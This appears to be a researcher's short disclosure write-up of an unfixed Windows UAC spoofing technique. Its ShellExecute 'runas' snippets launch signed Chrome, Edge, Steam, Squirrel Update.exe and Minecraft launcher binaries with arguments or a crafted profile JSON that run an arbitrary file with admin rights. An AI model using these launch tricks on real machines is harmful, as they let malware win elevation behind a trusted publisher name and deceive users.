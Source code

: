 ```yaml
---
title: UAC Spoof (Not Fixed)
---
```


Spoofing the Windows UAC (user account control) prompt "verified" publisher :)  
PoCs can be found at <https://github.com/NDevTK/UACSpoof>  
![UAC prompt](https://ndevtk.github.io/writeups/UAC.png)  

This is a very easy spoof since all it needs is a signed program to launch the attackers code while maintaining admin privileges.

# Chromium
Will run what ever program is set in `gpu-launcher` 
```js
App.ShellExecute "C:\Program Files\Google\Chrome\Application\chrome.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```
```js
App.ShellExecute "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```
```js
App.ShellExecute "C:\Program Files (x86)\Steam\bin\cef\cef.win7x64\steamwebhelper.exe", "--disable-gpu-sandbox --gpu-launcher=" + <FILE>, , "runas"
```

# Squirrel Updater
Will run what ever program is set in `processStart` 
```js
App.ShellExecute <Discord/Postman> + "Update.exe", "--processStart <FILE>", , "runas"
```

# Minecraft
Will run what ever program is set as the `javaDir` in `launcher_profiles.json` 
```js
Profiles = "{""profiles"":{""release"":{""created"":""1970-01-02T00:00:00.000Z"",""icon"":""Grass"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-02T00:00:00.000Z"",""lastVersionId"":""latest-release"",""name"":"""",""type"":""latest-release""},""snapshot"":{""created"":""1970-01-01T00:00:00.000Z"",""icon"":""Dirt"",""javaDir"":""<RUNTIME>"",""lastUsed"":""1970-01-01T00:00:00.000Z"",""lastVersionId"":""latest-snapshot"",""name"":"""",""type"":""latest-snapshot""}},""settings"":{""crashAssistance"":true,""enableAdvanced"":false,""enableAnalytics"":true,""enableHistorical"":false,""enableReleases"":true,""enableSnapshots"":false,""keepLauncherOpen"":false,""profileSorting"":""ByLastPlayed"",""showGameLog"":false,""showMenu"":false,""soundOn"":false},""version"":3}"
Profiles = Replace(Profiles, "<RUNTIME>", Replace(Temp, "\", "\\"))
```
